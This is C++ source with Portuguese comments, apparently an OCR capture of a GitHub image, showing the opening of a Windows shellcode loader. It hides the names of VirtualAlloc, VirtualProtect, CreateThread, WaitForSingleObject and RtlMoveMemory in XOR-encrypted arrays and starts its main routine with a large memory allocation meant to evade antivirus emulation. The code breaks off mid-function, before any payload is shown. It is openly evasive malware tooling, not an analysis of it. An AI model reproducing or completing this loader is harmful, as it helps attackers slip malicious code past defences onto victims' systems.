 ```cpp
//ponteiro para VirtualAlloc
LPVOID (WINAPI * pVA)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);
//ponteiro para VirtualProtect
BOOL (WINAPI * pVP)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);
//ponteiro para CreateThread
HANDLE (WINAPI * pCT)(PSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, __drv_aliasesMem LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
//ponteiro para WaitForSingleObject
DWORD (WINAPI * pWFSO)(HANDLE hHandle, DWORD dwMilliseconds);
//ponteiro para RtlMoveMemory
VOID (WINAPI * pRM)(VOID UNALIGNED *Destination, const VOID UNALIGNED *Source, SIZE_T Length);

// XOR encrypted da VirtualAlloc
unsigned char cVA[] = {0x61, 0x01, 0x41, 0x38, 0x45, 0x12, 0x5b, 0x02, 0x58, 0x1e, 0x0c, 0x53, 0x73};
unsigned int cVALen = sizeof(cVA);

// XOR encrypted VirtualProtect
unsigned char cVP[] = {0x61, 0x01, 0x41, 0x38, 0x45, 0x12, 0x5b, 0x13, 0x46, 0x1d, 0x17, 0x55, 0x10, 0x40, 0x37};
unsigned int cVPLen = sizeof(cVP);

//XOR encrypted da CreateThread
unsigned char cCT[] = {0x74, 0x1a, 0x56, 0x2d, 0x44, 0x16, 0x63, 0x2b, 0x46, 0x17, 0x02, 0x54, 0x73};
unsigned int cCTLen = sizeof(cCT);

//XOR encrypted da WaitForSingleObject
unsigned char cWFSO[] = {0x60, 0x09, 0x5a, 0x38, 0x76, 0x1c, 0x45, 0x10, 0x5d, 0x1c, 0x04, 0x5c, 0x16, 0x7b, 0x55, 0x02, 0x56, 0x2f, 0x44, 0x73};
unsigned int cWFSOLen = sizeof(cWFSO);

//XOR encrypted da RtlMoveMemory
unsigned char cRM[] = {0x65, 0x1c, 0x5f, 0x01, 0x5f, 0x05, 0x52, 0x0e, 0x51, 0x1f, 0x0c, 0x42, 0x0a, 0x34};
unsigned int cRMLen = sizeof(cRM);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int a;
    a = 0;

    for (int i = 0; i < data_len; i++) {
        if (a == key_len - 1) a = 0;

        data[i] = data[i] ^ key[a];
        a++;
    }
}

int main(void) {
    DWORD oldProtect = 0;
    BOOL rx;
    HANDLE thread;

    char *mem = NULL;
    mem = (char *) malloc(500000000);

    if (mem != NULL) {
        memset(mem, 00, 500000000);
        free(mem);

        // deXOR da VirtualAlloc
```